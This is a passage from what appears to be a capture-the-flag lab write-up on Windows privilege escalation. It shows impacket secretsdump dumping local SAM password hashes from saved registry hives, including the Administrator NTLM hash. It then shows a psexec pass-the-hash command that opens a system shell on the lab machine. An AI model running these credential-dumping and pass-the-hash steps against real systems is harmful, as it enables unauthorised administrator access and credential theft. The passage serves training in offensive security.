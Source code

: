 Then :

![Share](/images/thm/windowsprivesc20/windowsprivesc20_17.png)
_Share_

We can now use impacket to get administrator's hash :

```console
root@ip-10-10-58-45:~/share# python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMBackup:1008:aad3b435b51404eeaad3b435b51404ee:6c252027fb2022f5051e854e08023537:::
THMTakeOwnership:1009:aad3b435b51404eeaad3b435b51404ee:0af9b65477395b680b822e0b2c45b93b:::
[*] Cleaning up... 
root@ip-10-10-58-45:~/share
```
{: .nolineno }

And finally use the impacket pass-the-hash to prompt a system shell :

```console
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.137.58
```
{: .nolineno }
